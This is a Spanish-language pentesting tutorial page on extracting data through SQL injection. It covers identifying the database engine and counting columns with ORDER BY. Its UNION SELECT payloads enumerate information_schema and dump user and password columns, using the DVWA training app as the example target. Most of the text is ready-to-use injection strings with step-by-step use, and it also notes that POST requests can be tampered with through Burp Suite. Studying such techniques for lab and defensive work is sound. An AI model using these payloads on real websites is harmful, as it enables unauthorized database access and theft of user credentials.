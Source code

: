 ```yaml
---
description: Extrayendo información despues de obtener acceso a la base de datos.
---
```


# EXTRACCIÓN DE INFORMACIÓN.

## **DETECTANDO GESTOR DE BASE DE DATOS**

**1.** Utilizar herramientas como **NMAP** o similares

* Puerto 3306 MySQL por defecto

 **2.** Utilizar **TABLA DE CONCATENACION:**

|  GESTOR |  'a' \|\| 'b' |  'a' + 'b' |  concat\('a','b'\) |
| :--- | :--- | :--- | :--- |
|  Oracle |  'ab' |  ERROR |  'ab' |
|  PostgreSQL |  'ab' |  ERROR |  ERROR |
|  MySQL |  0 |  'ab' |  'ab' |
|  SQL Server |  ERROR |  'ab' |  ERROR |

 Si introduce como input alguna de las siguientes concatenaciones, sabrá que GESTOR es mas posible que sea en funcion del resultado obtenido.

 Tambien puede utilizar:

 `@@Version` → Para MySQL y MsSQL  
 `Version()` → PostgreSQL y MySQL  
 `banner FROM v$version` → Oracle

## **DETERMINANDO CANTIDAD DE COLUMNAS**

 El metodo variara en caso de que la inyeccion sea **Integer** o **String**:

###  **1. INTEGER**

 Primero debo comprobar que la web es vulnerable a SQL Injection.

 En este caso, utilizo `-1` en vez de \('\) por ser inyección de integer.

 Despues utilizo **`-1 ORDER BY 5 -- -`** Para ordenar las columnas de 5 en 5.

 Continuo con **`-1 ORDER BY 10 -- -`** Y resulta que me da error al no encontrar la columna numero 10.

 Intento con **`-1 ORDER BY 8 -- -`** Y no me da error.

 En cambio con **`-1 ORDER BY 9 -- -`** Si que da error.

 Por lo tanto, el numero de columnas es exactamente 8.

 Por ultimo, para comprobar hago **`-1 UNION SELECT 1,2,3,4,5,6,7,8 -- -`** Y no me da ningun error.

###  **2. CADENA**

 Primero debo comprobar con \('\) que la web es vulnerable a SQL Injection.

 Despues utilizo **`' ORDER BY 5 -- -`** Para ordenar las columnas de 5 en 5.

 Continuo con **`' ORDER BY 10 -- -`** Y resulta que me da error al no encontrar la columna numero 10.

 Intento con **`' ORDER BY 8 -- -`** Y no me da error.

 En cambio con **`' ORDER BY 9 -- -`** Si que da error.

 Por lo tanto, el numero de columnas es exactamente 8.

 Por ultimo, para comprobar hago **`' UNION SELECT 1,2,3,4,5,6,7,8 -- -`** Y no me da ningun error.

##  **DETERMINANDO NOMBRE DE LA BASE DE DATOS / TABLAS / COLUMNAS**

 **1.** Lo primero como ya hemos visto es comprobar que es vulnerable **\('\)**

 **2.** Despues compruebo el numero de columnas con **`ORDER BY`** como en el punto anterior.

 **3.** Utilizo **`' UNION SELECT 1,2 -- -`** para comprobar y si no me da error, esta correcto.

 **4**. Ahora puedo cambiar 1 y 2 por otro tipo de informaciones sacadas de la tabla:

 **`' UNION SELECT @@version,2 -- -`** → muestra la version donde deberia estar el valor de 1.

 ``**`' UNION SELECT table_schema,2 FROM information_schema.schemata -- -`** → muestra los nombres de las bases de datos.

 **`' UNION SELECT table_schema,table_name FROM information_schema.tables -- -`** → muestra el nombre de las tablas y a que Base de datos pertenece.

 **`' UNION SELECT table_name,column_name FROM information_schema.columns -- -`** → muestra el nombre de las tablas y las columnas que le pertenecen.

##  **FILTRANDO DATOS DE SALIDA PARA OPTIMIZAR**

 Ya sabemos como extraer mucha informacion de la base de datos, pero, en ocasiones, se da el caso de que la web solo nos ofrece una pieza de informacion. O por el contrario, nos ofrece toda la informacion posible. Es por eso que tengo que saber como filtrar la informacion.

 **1.** Compruebo que base de datos quiero atacar.

 **`' UNION SELECT table_schema,2 FROM information_schema.tables -- -`**

 Asi obtengo los nombres de las bases de datos y elijo la que yo quiero atacar.

 **2.** Ahora, para obtener las tablas de esta base de datos tengo que filtrar:

 **`‘ UNION SELECT table_name,2 FROM information_schema.tables WHERE table_schema=’dvwa' -- -`**

 Ahora solo veo las tablas de la Base de datos “dvwa” por lo que puedo elegir la tabla que quiero atacar.

 **3.** Seguimos para obtener las columnas de la tabla “users”

 **`‘ UNION SELECT column_name,2 FROM information_schema.columns WHERE table_schema=’dvwa' AND table_name='users' -- -`**

 Ya obtengo las columnas dentro de la tabla users de la base de datos dvwa. Ya solo queda sacar la informacion de las columnas.

 Si solo puedo ver un dato al mismo tiempo, debo empezar a concatenar AND y != para ir navegando por cada una de las Bases de Datos, Luego tablas, luego columnas y por ultimo datos.

 **`' UNION SELECT table_schema,2 FROM information_schema.tables WHERE table_schema!=dvwa AND table_schema!=fonts -- -`**

 Asi, filtrando poco a poco vamos obteniendo la informacion que queremos.

##  **EXTRAER TODOS LOS DATOS DE UNA BASE DE DATOS**

 Ya hemos conseguido alcanzar la COLUMNA de la TABLA de la BASE DE DATOS que nos interesa. Ahora necesitamos sacar la informacion de esta columna:

 **`' UNION SELECT user,password FROM users -- -`**

 Como ya sabemos la tabla de la que queremos sacar la informacion, no hace falta nada mas.

##  **EXTRAER INFORMACION CON METODO POST**

 En todos los casos anteriores hemos utilizado el metodo **GET**, es decir, modificando el URL.

 El metodo **POST** no me permite mostrar ni modificar los datos en el URL,

 Para hacer las consultas con el metodo **POST** necesito una herramienta como **BURP SUITE** para modificar la solicitud **POST** en caliente antes de la transmision.

 El procedimiento para obtener la informacion seria el mismo.

